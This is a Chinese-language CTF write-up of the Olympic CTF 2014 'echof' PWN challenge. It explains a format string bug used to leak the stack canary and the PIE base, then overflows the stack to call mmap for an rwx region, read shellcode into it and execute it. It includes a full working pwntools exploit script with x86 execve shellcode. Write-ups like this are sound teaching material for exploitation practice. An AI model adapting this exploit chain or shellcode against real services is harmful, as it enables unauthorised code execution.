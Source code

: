 ```yaml
---
title: olympic ctf echof(PWN 300)
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
---
```


2015年第一帖。

以往的CTF的题目质量还是很高的，所以打算稍微练一练这些题目。

这道[题目](https://github.com/ctfs/write-ups/tree/a7ab67c0233da01f96047fe04d829731876438ad/olympic-ctf-2014/echof)，存在一处format string attack。主要是在`strncpy`后添加结尾的`null`字符时，如果长度足够，就会把之后用到的格式字符串地址最低byte设为0，而那里正好指向我们提供的内容，于是接下来的`sprintf`造成漏洞。

但是，在开始时会先检查我们提供的内容是否包括字符`n`，这就使得`%n`这种方式不可用了。于是format string就只能用来读内存。另一方面，由于`sprintf`的目标地址在栈上，所以这里可以溢出覆盖返回地址。由于有canary保护，我们需要读canary的内容，以用来后面溢出能通过检查。

这道题有一个与以往不同之处，就是可执行文件是PIE的，即程序自身的代码地址也会变化，而且以往那样直接在GOT固定位置得到函数地址的方法行不通了。比如说，通过调试发现，`call mmap`在我的机子上会成为调用相对`eip`偏移。

于是我们还需要读内存，得到`.text`的基地址。幸运的是，在栈上发现了指向某条指令的地址，于是通过读那里的内容，就可以获得`.text`段的地址了。进一步，通过读取`call mmap`指令处的偏移，就可以得到函数`mmap`的地址。

获得这些需要的地址后，接下来需要溢出改返回地址了。而不幸的是，发现canary的最低byte总是0，这就导致`strncpy`时会截断，格式字符串不完整了。后来发现，由于在`ret`之前有好几轮`sprintf`，于是可以先使用错误的canary，即最低byte非0而其他位正确，然后利用`sprintf`会把结尾的byte设为0，再一次溢出并只修改canary的最低位成为0。这样在最后的`ret`时canary就符合要求了。

同样地，在后面调用`mmap`时，参数也有很多`null`字符，这里也用和canary一样的思路写0到栈。具体调用时，尝试发现有些参数里不包括0也是可以的，比如`flag`。如下的调用

<pre>mmap(0x11111000, 0x01011000, 0x01010107, 0x01010122, -1, 0x01011000);</pre>

就会映射出

<pre>0x11111000 0x12122000 rwxp      mapped</pre>

综上，大概思路就是，先得到一段`rwx`的指定区域，然后`read`把shellcode读到那里，最后跳到那里执行。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

def sendNull(conn, payload):
    chunks = payload.split("\x00")
    clen = len(chunks)
    print "%d chunks" % clen
    for i in range(clen):
        plo = "\xaa".join(chunks)
        size1 = 0x80 - 5 - len(plo)
        size2 = 0x100-size1
        fmt = "%%%dx" % size2
        if not (len(fmt)+size1+len(plo) == 0x80):
            print "%d %s %d" % (size1, fmt, len(plo))
            exit (1)

        pl = "b"*size1 + fmt + plo
        conn.recvuntil("msg?\n")
        conn.send(pl)
        chunks = chunks[:-1]

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    c1 = "%78$08x%80$08x"

    payload1 = "letmein\n" + c1 + "a"*(0x80-len(c1));


    conn.send(payload1)
    conn.recvuntil("msg?\n")

    canary = int(conn.recvn(8),16)
    print "canary is %s" % hex(canary)
    eip = int(conn.recvn(8),16)
    print "eip is %s" % hex(eip)
    base = eip & 0xfffff000
    print "base is %s" % hex(base)

    call_mmap = base + 0xae5
    call_read = base + 0xa78
    c2 = "%44$sABCD\n%45$s"
    payload2 = c2 + "a"*(0x80-len(c2)-8) + p32(call_mmap+1) + p32(call_read+1)

    conn.send(payload2)
    conn.recvuntil("msg?\n")
    mmap_off = unpack(conn.recvn(4))
    mmap = (call_mmap + 5 + mmap_off) & 0xffffffff
    print "mmap is %s" % hex(mmap)

    conn.recvuntil("ABCD\n")
    read_off = unpack(conn.recvn(4))
    read = (call_read + 5 + read_off) & 0xffffffff
    print "read is %s" % hex(read)

    pop = base+0x8b5 #pop 7 dword and ret
    target = 0x11111000
    payload2 = p32(canary) + "a"*12 + p32(mmap) + p32(pop) + p32(target) + p32(0x01011000) + p32(0x01010107) + p32(0x01010122) + p32(0xffffffff) + p32(0x01011000) + p32(0xffffffff) + p32(read) + p32(target+1) + p32(0) + p32(target+1) + p32(0xffffffff)

    sendNull(conn, payload2)

    conn.recvuntil("msg?\n")
    conn.send("n")

    shellcode = "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"
    conn.send(shellcode)

    conn.interactive()
{% endhighlight %}

我还考虑过这道题能不能利用内存泄露用pwntools得到`system`函数的地址，然后调用的方式。但那样的话还需要把`/bin/sh`放到指定的某处，而且限制16次可能不够找`system`，还需要再返回main来一遍。后来就没有试了。
